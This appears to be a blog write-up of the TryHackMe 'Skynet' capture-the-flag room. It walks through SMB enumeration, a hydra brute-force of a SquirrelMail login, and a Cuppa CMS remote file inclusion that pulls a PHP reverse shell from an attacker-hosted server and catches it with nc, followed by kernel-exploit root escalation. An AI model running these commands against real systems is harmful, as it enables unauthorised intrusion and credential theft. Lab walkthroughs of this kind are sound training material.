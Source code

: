 ```yaml
---
layout: single
classes: #wide
title: "Try Hack Me - Skynet"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Hack The Box]
tags: [meterpreter, hydra, nmap]
---
```

![title](/assets/images/skynet/title.png)

I started this machine like any other using a simple nmap scan to get an understanding of what services are running. And just as always, answers will be in the source code in comments.

![nmap](/assets/images/skynet/nmap.png)

Within the nmap scan we can see that there is a samba server running on port 139
and 445. This is a very good starting point to see if we have any access to the
samba shares. Running another nmap scan, but this time using the smb enumeration scripts using the `-sC` command whithin nmap will present us iwth this information:

![smb](/assets/images/skynet/nmapsmb.png)

This scan showed us that we have read and write acessability to the share
anonymous. Now, we can either mount the share to our system or we can read it on
the server. I chose to mount the drive with the command `sudo mount
//10.10.84.83/anonymous /mnt/skynet`.   

Listing the directory that we just mounted we find that therer are log files and
a notififcaiton from Miles Dyson telling us that there was a malfunction that
changed skynet employee passwords. Exploring the log files we will see the password changes for the employees. 
![pws](/assets/images/skynet/pws.png)

During this period of time I had a gobuster scan running. It found a few directories but the one thats important to note is `/squirrelmail`. Why? Because this mail server was what was being affected during the password resets.

Going back to the smb shares there was a share named milesdyson. Meaning more than likely there is a milesdyson user on the squirrel mail server. Going to the squirrelmail directory within the website we can see a login forum presented to us.   

Brute force time :smile:

Using hyrdra the paylod will look a little like this:  
`hydra -l milesdyson -P milessharepw.txt 10.10.84.83 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect."`

Finding the password to the account is: 
<!-- cyborg007haloterminator! -->
    
After logging into milesdyson's squirrelmail account I figured I'd mess around
with some public CVE's and nothing worked that I had found. Now, looking myles's
emails there is one that stands out. `Samba Password Reset`, within that email we will find this:
![smbpw](/assets/images/skynet/smbpw.png)

YAY! We now know his smb password. Back to the smb shares we go. Upon mounting
miles's share we find a important.txt file within his notes folder. In this
folder contains his todo list of what he want's to accomplish more. 

![important](/assets/images/skynet/import.png)
 
Knowing he wants to spend more time with his wife gives us the upperhand :smiling_imp:

Definitely not the secret dierctory `/45kra24zxs28v3yd` :eyes:

So, now that we have a new directory we can go visit it, entering the site's new
unfound page there isn't a whole lot. But, if you remember Miles said something
about CMS /secret_dir. Now this we can do something about. Running another
gobuster on this subdomain we find out that there is a Cuppa CMS server running
under the `/administrator` directory. So, in full it is
`skynet/45kra24zxs28v3yd/administrator/`. 

Funny enough cuppa has a `remote file inclusion` vulnerability which can be found
[here](https://www.exploit-db.com/exploits/25971). Little hint this is an answer
to one of the questions. If you don't care to look
through it I'll give you the short version. Basically the program allows php
code injection at the url `/alerts/alertConfigField.php`. This is all thanks to
this line within that file on line 22:

`<?php include($_REQUEST["urlConfig"]); ?>`

So, we know there is a vulnerability. How can we take advantage of this? Well,
since we have RCE a simple php reverse shell (because its executing php) and
hosting the file on our computer for the server to obtain will be enough to give
us a user on the machine. 

so, 
```
python -m http.server 8887 - host file
nc -lvnp <reverse.php port> - listen for reverse shell
skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=<ip>:8888/reverse.php - url for execution
```

Running these 3 commands gets us a user shell into the machine. 

Time to escalate!

Moving linpeas onto the machine and running it gives a few CVE's that we can exploit. Personally I chose [this](https://www.exploit-db.com/exploits/45010) one. Moving this onto the box, running gcc on the .c file and executing it is enough to give us root.


Just like that the box is ours :flushed:

Thank you for reading!  
-Ryushe 